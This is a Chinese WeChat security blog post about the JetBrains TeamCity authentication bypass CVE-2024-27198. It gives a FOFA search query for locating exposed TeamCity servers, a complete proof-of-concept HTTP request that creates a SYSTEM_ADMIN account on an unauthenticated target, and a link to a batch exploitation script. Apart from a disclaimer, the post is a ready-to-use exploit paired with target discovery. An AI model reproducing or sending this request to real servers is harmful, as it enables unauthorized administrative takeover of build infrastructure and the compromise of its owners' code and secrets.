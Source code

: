 #  JetBrains TeamCity 身份验证绕过漏洞(CVE-2024-27198)-附py   
Y1_K1NG  Yi安全   2024-03-09 16:56  
  
**由于微信公众号推送机制改变了，快来星标不再迷路，谢谢大家！**  
  
****  
免责声明  
  
本文章仅用于信息安全防御技术分享，因用于其他用途而产生不良后果,作者不承担任何法律责任，请严格遵循中华人民共和国相关法律法规，禁止做一切违法犯罪行为。  
文  
章中敏感信息均  
已做多层打马处理。  
传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行  
负责。  
  
  
  
  
  
 JetBrains TeamCity    
  
## 一：漏洞描述  
  
      JetBrains TeamCity 身份验证绕过漏洞(CVE-2024-27198)  
## 二：网络空间测绘查询  
  
fofa  
```
body="Log in to TeamCity"
```  
  
‍## 三：漏洞复现  
  
****  
poc****  
```
POST /pwned?jsp=/app/rest/users;.jsp HTTP/1.1
Host: youip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json
Accept-Encoding: gzip, deflate

{"username": "test123", "password": "test123", "email": "test@test.com","roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```  
  
****## 四：批量脚本获取  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SiciaJiayvKbnHqVsz5VOAlwkibsqsc2ODj0e2qAib3ibwNRNRGzjV9BQ6Zwx33BdvCicsTfPtOcMOzPMrzO6aJbbm85A/640?wx_fmt=png&from=appmsg "")  
```
https://github.com/Y1-K1NG/poc_exp/tree/main/20240309JetBrains%20TeamCity%20%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E(CVE-2024-27198)
```  
  
  
‍  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
  
由于传播、利用本公众号Yi安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号Yi安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
好文分享收藏赞一下最美点在看哦  
  
  
  

